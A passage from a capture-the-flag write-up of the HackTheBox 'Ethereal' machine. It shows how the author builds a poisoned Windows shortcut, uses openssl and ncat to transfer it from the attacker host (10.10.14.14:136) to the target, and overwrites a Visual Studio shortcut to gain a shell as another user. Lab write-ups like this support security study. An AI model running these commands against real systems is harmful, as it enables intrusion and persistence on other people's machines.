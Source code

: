     ## |________/|__/  \__/|__/  \__/ \______/ | $$____/  ##
    ##                                         | $$       ##
    ##                                         | $$       ##
    ##                                         |__/       ##
      ~==================================================~
    
    File saved to /media/sf_CTFs/hackthebox/ethereal-10.10.10.106/vs-mod2.lnk
    Link created at vs-mod2.lnk with UNC path \\localhost\Share\36855.ico.
    

The `--host` and `--type` parameters are really just to get it to run. The
important part is the `--execute`.

For some reason, `pylnker` can’t read anything from the file that is
generated. Still, this file will work.

### Upload

Now I want to get the poisoned lnk file to target. I’ll kill the output
connection I currently have on port 136. I can still issue commands to port
73, I just won’t see the output. Then I can serve the link file with `ncat`,
and then use `openssl` to get upload the file. I’ll issue this command into
the port 73 terminal:

    
    
    c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136 > c:\users\public\desktop\shortcuts\lnk.lnk
    

I’ll serve the file with `ncat`, and I get a connection back on port 136 to
get the file:

    
    
    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 136 < vs-mod.lnk
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::136
    Ncat: Listening on 0.0.0.0:136
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49674.
    

Now I’ll issue the command to copy the poison lnk to the expected name:

    
    
    copy /Y lnk.lnk "Visual Studio 2017.lnk"
    

Then I’ll quickly kill both listeners and restart them with `openssl`.

### Shell

Within a few minutes, I have a shell as jorge, in two windows, just like with
alan:

